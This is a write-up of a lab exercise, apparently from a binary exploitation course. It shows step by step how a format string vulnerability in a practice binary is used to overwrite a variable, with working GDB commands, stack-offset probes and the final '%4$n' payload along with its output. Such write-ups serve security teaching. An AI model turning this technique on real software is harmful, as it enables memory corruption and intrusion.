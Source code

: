 # ex07 README

## Objective

The goal of this exercise is to exploit a format string vulnerability to modify the `target` variable and see the message "you have modified the target :)".

## Steps

### 1. Identify the `target` Variable Address

We start by finding the address of the `target` variable using the `objdump` tool:

```sh
objdump -t bin | grep target 
```

This command provides the address of the `target` variable:

```plaintext
080496e4 g     O .bss   00000004              target
```

The address of the `target` variable is `0x080496e4`.

### 2\. Analyze the Binary with GDB

We then use GDB to analyze the binary and understand the structure of the `vuln` function:

```sh

gdb -q ./bin
```

Inside GDB, we set a breakpoint at the `vuln` function:

```sh
break vuln
run
```

Disassemble the `vuln` function to understand its structure:

```sh

disassemble vuln
```

Output:

```plaintext

Dump of assembler code for function vuln:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x218,%esp
   0x0804845d <+9>:     int3
   0x0804845e <+10>:    fcoms  0x44890804(%esi)
   0x08048464 <+16>:    and    $0x8,%al
   0x08048466 <+18>:    movl   $0x200,0x4(%esp)
   0x0804846e <+26>:    lea    -0x208(%ebp),%eax
   0x08048474 <+32>:    mov    %eax,(%esp)
   0x08048477 <+35>:    call   0x804835c <fgets@plt>
   0x0804847c <+40>:    lea    -0x208(%ebp),%eax
   0x08048482 <+46>:    mov    %eax,(%esp)
   0x08048485 <+49>:    call   0x804837c <printf@plt>
   0x0804848a <+54>:    mov    0x80496e4,%eax
   0x0804848f <+59>:    cmp    $0x40,%eax
   0x08048492 <+62>:    jne    0x80484a2 <vuln+78>
   0x08048494 <+64>:    movl   $0x8048590,(%esp)
   0x0804849b <+71>:    call   0x804838c <puts@plt>
   0x080484a0 <+76>:    jmp    0x80484b9 <vuln+101>
   0x080484a2 <+78>:    mov    0x80496e4,%edx
   0x080484a8 <+84>:    mov    $0x80485b0,%eax
   0x080484ad <+89>:    mov    %edx,0x4(%esp)
   0x080484b1 <+93>:    mov    %eax,(%esp)
   0x080484b4 <+96>:    call   0x804837c <printf@plt>
   0x080484b9 <+101>:   leave
   0x080484ba <+102>:   ret
End of assembler dump.
```

### 3\. Finding the Correct Offset

Test the binary with different format string inputs to find the correct offset:

```sh

python -c "print('AAAA ' + ' %08x' * 30)" | ./bin
```

Output:

```plaintext

AAAA  00000200 b7765c20 b7781328 41414141 30252020 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078
target is 0 :(
```

### 4\. Craft the Payload

Based on the offset identified, we craft the payload to overwrite the `target` variable:

```sh

python -c "print('\xe4\x96\x04\x08' + 'A'*60 + '%4\$n')" | ./bin
```

Output:

```plaintext

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have modified the target :)
```

Conclusion
----------

By carefully analyzing the binary and using a format string vulnerability, we were able to modify the `target` variable and complete the level. This exercise demonstrated the power and risk of format string vulnerabilities in C programs.

Challenges and Learnings
------------------------

- **Challenge**: Identifying the correct offset for the format string.
- **Solution**: Systematically testing different offsets in GDB.
- **Learning**: The importance of understanding format string vulnerabilities and how they can be exploited to modify memory.

By following these steps and understanding the exploitation process, we successfully completed the level.

